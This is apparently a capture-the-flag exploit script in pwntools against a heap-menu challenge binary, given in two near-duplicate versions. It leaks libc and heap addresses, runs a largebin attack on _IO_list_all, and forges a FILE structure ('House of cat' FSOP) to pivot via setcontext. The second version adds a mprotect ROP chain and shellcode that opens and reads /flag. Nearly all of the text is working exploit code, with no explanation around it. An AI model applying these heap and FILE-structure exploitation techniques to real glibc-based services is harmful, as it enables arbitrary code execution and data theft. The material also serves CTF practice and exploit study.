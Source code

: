 code())
    sh.sendafter(b"Content: ", content)
    sh.sendafter(b"Remark: ", remark)


def show(idx: int):
    menu(4)
    sh.sendlineafter(b"Index: ", str(idx).encode())


add(0x460, b'\x00', b'\x00')  # 0
add(0x440, b'\x00', b'\x00')  # 1
delete(0)
show(0)

sh.recvuntil(b"Content: \n")
libc_base = u64(sh.recv(6).ljust(8, b'\x00')) - 0x1ebbe0
print("libc_base >>>", hex(libc_base))

menu(1)
sh.sendlineafter(b"Size: ", str(0x480).encode())
edit(0, b'A'*0x10, b'\x00')
show(0)

sh.recvuntil(b'A'*0x10)
heap_base = u64(sh.recv(6).ljust(8, b'\x00')) - 0x290
print("heap_base >>>", hex(heap_base))

largebin_fd = libc_base + 0x1ebfe0
io_list = libc_base + libc.sym['_IO_list_all']

edit(0, p64(largebin_fd)*2 + p64(heap_base + 0x290) + p64(io_list-0x20), b'\x00')
delete(1)

menu(1)
sh.sendlineafter(b"Size: ", str(0x480).encode())

io_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
setcontext = libc_base + libc.sym['setcontext']

fake_io_addr = heap_base + 0xb70  # 伪造的fake_IO结构体的地址
fake_IO_FILE = p64(0)
fake_IO_FILE += p64(0) * 5
fake_IO_FILE += p64(1) + p64(2)  # rcx!=0(FSOP)
fake_IO_FILE += p64(heap_base + 0xfc0 - 0x50)  # _IO_backup_base=rdx
fake_IO_FILE += p64(setcontext+61)  # _IO_save_end=call addr(call setcontext/system)
fake_IO_FILE = fake_IO_FILE.ljust(0x58, b'\x00')
fake_IO_FILE += p64(0)  # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x78, b'\x00')
fake_IO_FILE += p64(heap_base+0x1000)  # _lock = a writable address
fake_IO_FILE = fake_IO_FILE.ljust(0x90, b'\x00')
fake_IO_FILE += p64(fake_io_addr+0x30)  # _wide_data,rax1_addr
fake_IO_FILE = fake_IO_FILE.ljust(0xb0, b'\x00')
fake_IO_FILE += p64(1)  # mode=1
fake_IO_FILE = fake_IO_FILE.ljust(0xc8, b'\x00')
fake_IO_FILE += p64(io_wfile_jumps+0x30)  # vtable=IO_wfile_jumps+0x10
fake_IO_FILE += p64(0) * 6
fake_IO_FILE += p64(fake_io_addr+0x40)  # rax2_addr

edit(0, p64(largebin_fd)*2 + fake_IO_FILE + p64(heap_base + 0x290), b'\x00')

delete(1)

sh.interactive()
``````python
code())
    sh.sendafter(b"Content: ", content)
    sh.sendafter(b"Remark: ", remark)


def show(idx: int):
    menu(4)
    sh.sendlineafter(b"Index: ", str(idx).encode())


add(0x460, b'\x00', b'\x00')  # 0
add(0x440, b'\x00', b'\x00')  # 1
delete(0)
show(0)

sh.recvuntil(b"Content: \n")
libc_base = u64(sh.recv(6).ljust(8, b'\x00')) - 0x1ebbe0
largebin_fd = libc_base + 0x1ebfe0
io_list = libc_base + libc.sym['_IO_list_all']
io_wfile_jumps = libc_base+libc.sym['_IO_wfile_jumps']
setcontext = libc_base + libc.sym['setcontext']
mprotect = libc_base + libc.sym['mprotect']
print("libc_base >>>", hex(libc_base))

menu(1)
sh.sendlineafter(b"Size: ", str(0x480).encode())
edit(0, b'A'*0x10, b'\x00')
show(0)

sh.recvuntil(b'A'*0x10)
heap_base = u64(sh.recv(6).ljust(8, b'\x00')) - 0x290
print("heap_base >>>", hex(heap_base))
edit(0, p64(largebin_fd)*2 + p64(heap_base + 0x290) + p64(io_list-0x20), b'\x00')
delete(1)

menu(1)
sh.sendlineafter(b"Size: ", str(0x480).encode())

# House of cat
fake_io_addr = heap_base + 0xb70                    # Fake address of the fake_IO structure
fake_IO_FILE = p64(0)                               
fake_IO_FILE += p64(0) * 5
fake_IO_FILE += p64(1) + p64(2)                     # rcx!=0(FSOP)
fake_IO_FILE += p64(heap_base + 0xfc0 - 0x50)              # _IO_backup_base=rdx
fake_IO_FILE += p64(setcontext+61)                  # _IO_save_end=call addr(call setcontext/system)
fake_IO_FILE = fake_IO_FILE.ljust(0x58, b'\x00')
fake_IO_FILE += p64(0)                              # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x78, b'\x00')
fake_IO_FILE += p64(heap_base+0x1000)               # _lock = a writable address
fake_IO_FILE = fake_IO_FILE.ljust(0x90, b'\x00')
fake_IO_FILE += p64(fake_io_addr+0x30)               # _wide_data, rax1_addr
fake_IO_FILE = fake_IO_FILE.ljust(0xb0, b'\x00')
fake_IO_FILE += p64(1)                              # mode=1
fake_IO_FILE = fake_IO_FILE.ljust(0xc8, b'\x00')
fake_IO_FILE += p64(io_wfile_jumps+0x30)            # vtable=IO_wfile_jumps+0x10
fake_IO_FILE += p64(0) * 6
fake_IO_FILE += p64(fake_io_addr+0x40)              # rax2_addr

shellcode = asm(
    '''
    mov rax, 0xc0
    mov rbx, 0x500000
    mov rcx, 0x5000
    mov rdx, 3
    mov rsi, 0x100021
    xor rdi, rdi
    xor rbp, rbp
    int 0x80        # mmap2(0x500000, 0x5000, 3, 0x100021, 0, 0)
    
    mov rdi, 0
    mov rsi, 0x502000
    mov rdx, 0x100
    xor rax, rax
    syscall
     
    mov rax, 5
    mov rbx, 0x502000
    xor rcx, rcx
    xor rdx, rdx
    int 0x80        # open(0x502000, 0, 0)
     
    mov rdi, rax
    mov rsi, 0x503000
    mov rdx, 0x100
    xor rax, rax
    syscall
     
    mov rdi, 1
    mov rax, 1
    syscall
    ''', arch='amd64')

#                           rdi                rsi                   rdx                          rsp           rcx(retn_addr)
payload = p64(0) + p64(heap_base+0x1000) + p64(0x2000) + p64(0)*2 + p64(7) + p64(0)*2 + p64(heap_base+0x1020) + p64(mprotect) + p64(heap_base+0x1028) + shellcode
edit(1, fake_IO_FILE, payload)
gdb.attach(sh, 'b *mprotect')
pause()
menu(5)
sh.send(b'/flag\x00')
sh.interactive()
```

<!-- AI -->
